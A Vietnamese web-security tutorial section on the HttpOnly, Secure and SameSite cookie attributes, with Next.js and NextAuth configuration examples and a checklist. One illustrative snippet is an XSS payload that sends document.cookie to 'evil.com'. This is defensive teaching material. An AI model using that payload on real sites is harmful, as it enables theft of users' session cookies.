

# 6.2.3 Cookie Security: Các thuộc tính HttpOnly/Secure/SameSite

## Giải quyết vấn đề một câu

Ba thuộc tính bảo mật Cookie - HttpOnly, Secure, SameSite - là tuyến phòng thủ đầu tiên để chống lại các tấn công XSS và CSRF.

## Chi tiết các thuộc tính bảo mật Cookie

### HttpOnly: Ngăn chặn JavaScript đọc

```typescript
// Sau khi thiết lập HttpOnly, document.cookie không thể đọc
Set-Cookie: sessionId=abc123; HttpOnly
```

**Tác dụng**: Chặn những kẻ tấn công XSS sử dụng JavaScript để đánh cắp Cookie

```javascript
// Nếu không có HttpOnly, kẻ tấn công có thể:
<script>
  // Đánh cắp cookie người dùng gửi đến máy chủ tấn công
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

// Sau khi thiết lập HttpOnly, document.cookie trả về rỗng
```

### Secure: Chỉ truyền qua HTTPS

```typescript
Set-Cookie: sessionId=abc123; Secure
```

**Tác dụng**: Ngăn chặn Cookie bị nghe lén trong quá trình truyền HTTP rõ



### SameSite: Ngăn chặn yêu cầu xuyên trang

| Giá trị | Hành vi | Trường hợp sử dụng |
|----|------|----------|
| `Strict` | Hoàn toàn cấm yêu cầu xuyên trang | Các hoạt động nhạy cảm (ngân hàng, thanh toán) |
| `Lax` | Cho phép điều hướng, cấm POST | Khuyên dùng mặc định |
| `None` | Cho phép yêu cầu xuyên trang (cần kèm Secure) | Tình huống tích hợp xuyên trang |

```typescript
// Strict: Nghiêm ngặt nhất, không yêu cầu xuyên trang nào mang theo
Set-Cookie: sessionId=abc123; SameSite=Strict

// Lax: Cho phép từ liên kết bên ngoài
Set-Cookie: sessionId=abc123; SameSite=Lax

// None: Cho phép yêu cầu xuyên trang (phải kèm Secure)
Set-Cookie: sessionId=abc123; SameSite=None; Secure
```

## Ví dụ cấu hình thực tế

### Next.js API Route

```typescript
// app/api/login/route.ts
import { NextResponse } from 'next/server'

export async function POST(request: Request) {
  const response = NextResponse.json({ success: true })

  response.cookies.set('sessionId', 'abc123', {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'lax',
    maxAge: 60 * 60 * 24, // 1 ngày
    path: '/',
  })

  return response
}
```

### Cấu hình NextAuth

```typescript
export const authOptions: NextAuthOptions = {
  cookies: {
    sessionToken: {
      name: 'next-auth.session-token',
      options: {
        httpOnly: true,
        secure: process.env.NODE_ENV === 'production',
        sameSite: 'lax',
        path: '/',
      },
    },
  },
}
```

## Các tình huống phổ biến và chiến lược cấu hình

### Tình huống 1: Ứng dụng Web thông thường

```typescript
// Cấu hình khuyên dùng
{
  httpOnly: true,
  secure: true,
  sameSite: 'lax',
}
```

### Tình huống 2: API cần xuyên miền

```typescript
// Nếu front-end và back-end ở các miền khác nhau
{
  httpOnly: true,
  secure: true,
  sameSite: 'none', // Phải kèm secure
}
```

### Tình huống 3: Ứng dụng được nhúng trong iframe

```typescript
// Cần khi bị các trang web khác nhúng
{
  httpOnly: true,
  secure: true,
  sameSite: 'none',
}
```

## Công cụ kiểm tra bảo mật Cookie

Kiểm tra cài đặt Cookie trong công cụ dành cho nhà phát triển trình duyệt:

1. Mở DevTools → Application → Cookies
2. Kiểm tra thuộc tính của từng Cookie
3. Đảm bảo Cookie nhạy cảm có các thuộc tính bảo mật chính xác

## Những sai lầm phổ biến

### Sai lầm 1: Sử dụng Secure trong môi trường phát triển

```typescript
// ❌ Môi trường phát triển sử dụng Secure sẽ khiến Cookie không được thiết lập
secure: true // localhost là http, không phải https

// ✅ Thiết lập động dựa trên môi trường
secure: process.env.NODE_ENV === 'production'
```

### Sai lầm 2: SameSite=None không kèm Secure

```typescript
// ❌ Trình duyệt sẽ từ chối thiết lập
sameSite: 'none'

// ✅ Phải kèm Secure
sameSite: 'none',
secure: true
```

::: tip Danh sách kiểm tra Cookie Security
1. [ ] Tất cả Cookie nhạy cảm đều được cài đặt HttpOnly
2. [ ] Môi trường sản xuất cài đặt Secure
3. [ ] Chọn giá trị SameSite phù hợp với tình huống
4. [ ] Thiết lập thời gian hết hạn hợp lý
5. [ ] Giới hạn phạm vi Path của Cookie
:::
